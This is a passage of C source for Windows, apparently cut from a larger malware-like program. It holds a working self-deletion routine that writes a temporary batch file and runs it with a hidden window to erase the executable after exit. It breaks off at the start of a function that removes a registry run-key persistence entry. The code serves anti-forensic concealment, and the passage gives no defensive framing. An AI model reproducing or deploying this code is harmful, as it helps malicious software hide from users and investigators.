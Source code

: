 ```c
    return TRUE;
}

// ==========================================
// CLEANUP FUNCTIONS
// ==========================================

// Self-deletion function
BOOL self_delete() {
    char szModuleName[MAX_PATH];
    char szCmd[MAX_PATH];
    BOOL result = FALSE;
    
    if (GetModuleFileNameA(NULL, szModuleName, MAX_PATH)) {
        // Create a batch file to delete the executable after it exits
        sprintf(szCmd, "@echo off\n:loop\ndel \"%s\"\nif exist \"%s\" goto loop\ndel \"%%~f0\"", 
               szModuleName, szModuleName);
        
        char batchPath[MAX_PATH];
        GetTempPathA(MAX_PATH, batchPath);
        strcat(batchPath, "cleanup.bat");
        
        HANDLE hFile = CreateFileA(batchPath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 
                                 FILE_ATTRIBUTE_NORMAL, NULL);
        
        if (hFile != INVALID_HANDLE_VALUE) {
            DWORD written;
            WriteFile(hFile, szCmd, strlen(szCmd), &written, NULL);
            CloseHandle(hFile);
            
            // Execute the batch file
            STARTUPINFOA si = { sizeof(si) };
            PROCESS_INFORMATION pi;
            si.dwFlags = STARTF_USESHOWWINDOW;
            si.wShowWindow = SW_HIDE;
            
            char executeCmd[MAX_PATH + 20];
            sprintf(executeCmd, "cmd.exe /c \"%s\"", batchPath);
            
            if (CreateProcessA(NULL, executeCmd, NULL, NULL, FALSE, 
                             CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
                CloseHandle(pi.hProcess);
                CloseHandle(pi.hThread);
                result = TRUE;
                
                log_message("CLEANUP", "Self-deletion scheduled", TRUE);
            } else {
                log_message("ERROR", "Failed to start cleanup process", TRUE);
            }
        } else {
            log_message("ERROR", "Failed to create cleanup batch file", TRUE);
        }
    } else {
        log_message("ERROR", "Failed to get module filename", TRUE);
    }
    
    return result;
}

// Remove persistence
BOOL remove_persistence() {
    // Remove registry run key
    HKEY hKey;
```